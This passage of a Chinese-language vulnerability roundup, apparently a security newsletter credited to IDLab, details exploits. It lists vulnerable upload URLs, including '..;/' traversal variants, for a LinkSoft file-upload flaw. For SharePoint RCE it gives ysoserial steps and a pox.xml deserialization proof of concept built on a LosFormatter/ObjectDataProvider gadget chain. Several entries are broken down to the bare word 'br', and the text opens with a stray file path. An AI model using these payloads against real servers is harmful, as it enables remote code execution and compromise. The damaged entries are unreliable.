 113.PHPCMS V9 存在 RCE 漏洞  
114.QEMU-KVM 越界读写漏洞  
115.Cochip 无线路由器绕过认证泄露账号密码漏洞  
116.CVE-2020-4450 WebSphere 远程代码执行漏洞  
117.CVE-2020-13933 Apache shiro 权限绕过漏洞

**来自** **IDLab** **整理的漏洞详情**

#### **01\. 联软任意文件上传漏洞**

```
已知存在漏洞的url如下：http://IP:80/uai/newDevRegist/updateDevUploadinfo.htm（只有201904-1SP起才存在该漏洞）http://IP:80/uai/download/uploadfileToPath.htm（受影响的版本都存在该漏洞）http://IP:80/uai/newDevRegist/newDevRegist/newDevRegist/..;/..;/updateDevUploadinfo.htm（只有201904-1SP起才存在该漏洞）http://IP:80/uai/download/download/download/..;/..;/uploadfileToPath.htm （受影响的版本都存在该漏洞）

```

#### **02\. 网瑞达资源访问控制系统命令执行漏洞**

```
br

```

#### **03.Exchange Server 远程代码执行漏洞**

```
br

```

#### **04.SharePoint 远程代码执行漏洞**

1\. 使用 ysoserial 工具生成 payload

![](https://mmbiz.qpic.cn/mmbiz_png/K9JoBxX2CgBpJXPyh5lWzcAlXIc7jJ0Oicx8r0SrndlJW341WghcxY8mV5GJxQSpuZblHrlwXMCGjdS7iay2ZF4g/640?wx_fmt=png)

2\. 将生成的 payload 拼接到 poc

![](https://mmbiz.qpic.cn/mmbiz_png/K9JoBxX2CgBpJXPyh5lWzcAlXIc7jJ0OTlfk0ftMWNbtcnzmYsJoo48mFDsxLnZrFHzrOicOPKJH0gQeXp8sFxA/640?wx_fmt=png)

3\. 服务器 iis 主进程中启动了 calc.exe

![](https://mmbiz.qpic.cn/mmbiz_png/K9JoBxX2CgBpJXPyh5lWzcAlXIc7jJ0Ou4dt8xTCWTTgIdr0BE0pZ94KU1EOmlQ7B8BDOIoX3EOibAmAtHFvicHw/640?wx_fmt=png)

pox.xml

```
<DataSet>  <xs:schema xmlns="" xmlns:xs="http://www.w3.org/2001/XMLSchema" xmlns:msdata="urn:schemas-microsoft-com:xml-msdata">    <xs:element System.Data.Services.Internal.ExpandedWrapper\`2\[\[System.Web.UI.LosFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a\],\[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35\]\], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" type="xs:anyType" minOccurs="0"/>              </xs:sequence>            </xs:complexType>          </xs:element>        </xs:choice>      </xs:complexType>    </xs:element>  </xs:schema>  <diffgr:diffgram xmlns:msdata="urn:schemas-microsoft-com:xml-msdata" xmlns:diffgr="urn:schemas-microsoft-com:xml-diffgram-v1">    <somedataset>      <Exp\_x0020\_Table diffgr:id="Exp Table1" msdata:rowOrder="0" diffgr:hasChanges="inserted">        <pwn xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">        <ExpandedElement/>        <ProjectedProperty0>            <MethodName>Deserialize</MethodName>            <MethodParameters>                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">这里放payload</anyType>            </MethodParameters>            <ObjectInstance xsi:type="LosFormatter"></ObjectInstance>        </ProjectedProperty0>        </pwn>      </Exp\_x0020\_Table>    </somedataset>  </diffgr:diffgram></DataSet>

```

